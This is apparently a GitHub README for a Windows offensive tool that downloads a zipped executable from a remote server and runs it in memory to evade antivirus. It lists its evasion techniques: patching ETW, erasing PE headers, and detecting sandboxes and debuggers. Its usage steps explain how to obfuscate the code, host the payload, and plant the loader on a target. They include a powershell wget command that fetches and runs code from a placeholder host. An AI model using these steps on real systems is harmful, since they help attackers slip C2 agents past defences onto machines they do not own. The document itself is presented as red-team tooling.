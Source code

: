 ### Fileless-Remote-PE-Loader
--------------------------------------
This loader allows to download, unzip, and execute directly in-memory a compressed offensive security tool (x64 PE executable embeded in a zip file) retrieved from a remote web server. It implements several defense evasion techniques (e.g. fileless delivery + reflective PE loading, ETW bypass, sandbox checks) designed to bypass antivirus solutions such as Windows Defender.

#### FEATURES
- Fileless delivery + Reflective PE loading (Download, decompress, and execute in-memory a zipped x64 PE)
- ETW bypass in user-mode (patching EtwEventWrite functions)
- Dynamic API resolution (avoid static imports of suspicious API 'VirtualAlloc')
- PE header erasure (After mapping the PE into memory, the DOS + NT headers are zeroed out to reduce forensic visibility) 
- Memory protection hardening (Applies section-specific memory permissions i.e. first writable, then switched to execute-only)
- Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
- Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as C2 agents (e.g. Sliver, Havoc), ...

#### USAGE
- STEP 1 - Obfuscate the source code by removing all comments and 'printf' statements, renaming function and variable names, etc.

- STEP 2 - Compile the source code.  
           <i/>Note: the tool uses the 'miniz.c' library to perform ZIP decompression operations (https://github.com/richgel999/miniz)</i>
```
Example with Visual Studio 2022 Developer Command Prompt v17.14.14:
-------------------------------------------------------------------
c:\path-to-project\Fileless-Remote-PE-Loader> echo IDI_ICON1 ICON "myicon.ico" > appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> rc appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> cl /TC Fileless-Remote-PE-Loader.c miniz.c /link wininet.lib /MACHINE:X64 /OUT:Fileless-Remote-PE-Loader.exe appicon.res
```

- STEP 3 - Host on a web server the ZIP file embeding the offensive security tool (x64 PE) that you want to execute
```
Examples:
---------
- http://XX.XX.XX.XX:8080/file.zip
- http://XX.XX.XX.XX/file.zip
- https://your.website/file.zip
```
- STEP 4 - Upload the tool 'Fileless-Remote-PE-Loader.exe' on a target Windows machine and create in the same folder an "url.txt" file that contains the url to download your zip file.
		   When you will run the loader, it will download, unzip and execute in-memory your compressed PE file (x64 exe) located on your remote web server ('url.txt' file).
```
1. Download the loader
----------------------
c:\temp> powershell -c "wget -uri https://IP/Fileless-Remote-PE-Loader.exe - OutFile C:\temp\Fileless-Remote-PE-Loader.exe"
c:\temp> echo "http://ip/file.zip" > C:\temp\url.txt

2. Run the loader with the arguments to pass to the PE
------------------------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe arg1 arg2 [...]
or
2.bis Run the loader without argument
-------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe
No argument was provided. Press 'Enter' to continue, or press 'Ctrl+C' to exit and relaunch with arguments.
```

#### OPSEC improvement (to do)
- Implement direct syscalls to improve stealth because the use of 'VirtualAlloc' with 'PAGE_READWRITE' then 'VirtualProtect' to executable presents a 'medium' risk of detection.
  
#### LICENSE
GNU General Public License v3.0


